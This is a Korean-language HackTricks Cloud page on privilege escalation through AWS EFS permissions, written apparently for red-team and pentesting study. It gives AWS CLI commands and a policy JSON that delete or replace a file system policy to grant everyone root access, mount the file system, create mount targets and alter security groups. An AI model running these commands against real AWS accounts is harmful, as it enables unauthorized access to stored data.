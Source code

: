 # AWS - EFS Privesc

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## EFS

EFS에 대한 **더 많은 정보**는 다음에서 확인하세요:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFS를 마운트하려면 EFS가 노출된 서브네트워크에 있어야 하며 이에 대한 접근 권한(보안 그룹)이 필요합니다. 이러한 조건이 충족되면 기본적으로 항상 마운트할 수 있지만, IAM 정책으로 보호되는 경우 여기에서 언급된 추가 권한이 필요합니다.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

이 권한 중 하나로 공격자는 **파일 시스템 정책을 변경**하여 **접근 권한을 부여**하거나 **삭제**하여 **기본 접근**이 허용되도록 할 수 있습니다.

정책을 삭제하려면:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
변경하려면:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

이 권한을 통해 공격자는 **EFS를 마운트**할 수 있습니다. EFS를 마운트할 수 있는 모든 사용자에게 기본적으로 쓰기 권한이 부여되지 않는 경우, 그는 **읽기 권한**만 가집니다.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
The extra permissions `elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:CreateMountTarget`

공격자가 EFS의 **마운트 대상**이 존재하지 않는 **서브네트워크**에 있는 경우, 그는 이 권한으로 **자신의 서브넷에 하나를 생성**할 수 있습니다:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

공격자가 EFS가 자신의 서브네트워크에 마운트 대상을 가지고 있지만 **트래픽을 허용하는 보안 그룹이 없는** 상황을 발견하면, 그는 **선택한 보안 그룹을 수정하여 이를 변경할 수 있습니다**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**잠재적 영향:** 파일 시스템에서 민감한 정보를 찾아 간접적인 권한 상승.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
